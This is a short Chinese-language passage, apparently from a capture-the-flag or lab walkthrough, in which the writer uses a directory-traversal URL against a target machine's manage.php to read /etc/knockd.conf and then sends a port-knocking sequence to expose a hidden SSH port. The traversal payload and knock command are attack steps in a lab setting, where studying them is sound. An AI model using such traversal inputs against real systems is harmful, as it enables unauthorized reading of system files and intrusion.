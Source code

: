 **靶机使用了`knockd`进行防护，用来隐藏`ssh`登陆端口**

**knockd 服务的默认配置路径：/etc/knockd.conf**

```bash
http://192.168.80.142/manage.php?file=../../../../../../../../../../../etc/knockd.conf
```



![image-20230811202744147](./imgs/image-20230811202744147.png)

使用`7469 8475 9842`暗号敲门

```bash
knock 192.168.80.142  7469 8475 9842
```
